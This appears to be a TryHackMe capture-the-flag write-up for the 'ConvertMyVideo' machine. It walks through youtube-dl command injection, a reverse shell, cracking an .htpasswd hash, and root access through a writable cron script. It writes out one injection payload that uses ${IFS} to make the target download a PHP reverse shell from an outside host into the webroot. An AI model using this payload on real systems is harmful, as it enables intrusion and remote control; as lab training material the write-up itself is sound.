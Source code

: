 ```yaml
---
title: ConvertMyVideo TryHackMe Writeup
tags: [writeup,tryhackme,linux,ctf,web]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/1.png)

## Scanning
We launch nmap with scripts and software versions on all ports.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/2.png)

## Enumeration
We access the website, we see that it is a simple application that collects the ID of a youtube video.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/3.png)

We use **dirsearch** and list an interesting directory.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/6.png)

We entry the *"/*******/"* directory and list a basic authentication panel.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/4.png)

We continue reviewing the variable *"yt_url"* of the web application, investigating by Google I find this [github:](https://github.com/ytdl-org/youtube-dl/) where it shows us useful commands.

#### --version

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/7.png)

The **"--exec"** command not working....It seems that there are problems with the coding, looking for a way to solve the problem I discovered a way to be able to execute the **"ls"** command without problems.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/8.png)

Okay, so let's use the payload so we can read the first flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/9.png)


## Exploitation
We create a pentestmonkey reverse shell, raise a python server, set a netcat listening and use the following command to obtain a connection on the victim machine.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/10.png)

```bash
<`wget${IFS}10.11.30.149:8000/m3.php${IFS}-O${IFS}/var/www/html/m3.php`
```

#### Reverse shell

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/11.png)

Once we have access to the inside of the machine, we read the file *".htpasswd"* and crack the hash with the dictionary **"rockyou.txt"**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/12.png)

#### Cracking with JTR

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/13.png)

## Privilege Escalation
After launching several reconnaissance scripts, I end up analyzing the processes that are being executed by the system on a scheduled basis with **pspy** tool and we detect a *"clean.sh"* script running with *"UID=0" (root)*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/14.png)

We check the permissions we have on the file, we see that we can write to it, so we insert a line to invoke a reverse shell with **netcat** and we put another **netcat** listening in our Kali.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/15.png)

We wait a few minutes for the script to run with our malicious code and we will have an interactive connection as root.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/16.png)




